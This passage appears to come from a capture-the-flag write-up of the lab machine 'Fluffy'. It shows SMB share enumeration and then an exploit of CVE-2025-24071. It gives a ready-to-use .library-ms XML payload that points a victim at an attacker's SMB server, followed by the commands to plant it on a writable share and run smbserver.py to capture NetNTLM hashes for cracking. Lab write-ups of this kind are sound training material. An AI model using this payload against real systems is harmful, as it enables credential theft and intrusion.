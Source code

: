 ```shell
Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
# use it
# ls
drw-rw-rw-          0  Sat Jul 12 08:19:02 2025 .
drw-rw-rw-          0  Sat Jul 12 08:19:02 2025 ..
-rw-rw-rw-        365  Sat Jul 12 05:31:30 2025 docs.library-ms
drw-rw-rw-          0  Fri May 16 16:51:49 2025 Everything-1.4.1.1026.x64
-rw-rw-rw-    1827464  Fri May 16 16:51:49 2025 Everything-1.4.1.1026.x64.zip
drw-rw-rw-          0  Fri May 16 16:51:49 2025 KeePass-2.58
-rw-rw-rw-        316  Sat Jul 12 05:30:14 2025 KeePass-2.58.zip
-rw-rw-rw-     169963  Sat May 17 16:31:07 2025 Upgrade_Notice.pdf
# get Upgrade_Notice.pdf
#
```
downloading and opening `Upgrade_Notice.pdf`, we can see that it is an `IT` report regarding several `CVEs` that needs 
to be patched.
![Desktop View](document.png){: width="1600" height="900" }
one of the cves worth trying to see if it is patched or not yet is `CVE-2025-24071`, this vulnerability makes the victim 
authenticate to our smb server, thus we will be able to receive the NetNTLM hash that we can crack. 
all we have to do to exploit this vulnerability is to create a file with this name format `somename.library-ms`
and the following content, make sure to change the `ip address`
```shell
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.16.100\93k</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```
now with the `write` permissions the user `j.fleischman` have on `IT` share, we will drop the `.library-ms` file there
```shell
# put data/tmp/93k.library-ms
# ls
drw-rw-rw-          0  Sat Jul 12 12:39:23 2025 .
drw-rw-rw-          0  Sat Jul 12 12:39:23 2025 ..
-rw-rw-rw-        363  Sat Jul 12 12:39:26 2025 93k.library-ms
drw-rw-rw-          0  Fri May 16 16:51:49 2025 Everything-1.4.1.1026.x64
-rw-rw-rw-    1827464  Fri May 16 16:51:49 2025 Everything-1.4.1.1026.x64.zip
drw-rw-rw-          0  Fri May 16 16:51:49 2025 KeePass-2.58
-rw-rw-rw-        517  Sat Jul 12 11:55:12 2025 rev.ps1
-rw-rw-rw-     169963  Sat May 17 16:31:07 2025 Upgrade_Notice.pdf
#
```
after droping `93k.library-ms` in the `IT` share, i will start an smb server using `smbserver.py` and wait for the authentication.
```shell
(python-env) root@debian:/home/deb/Desktop/htb/Fluffy/data/tmp# smbserver.py -smb2support -debug -ip 10.10.16.100 93k .
```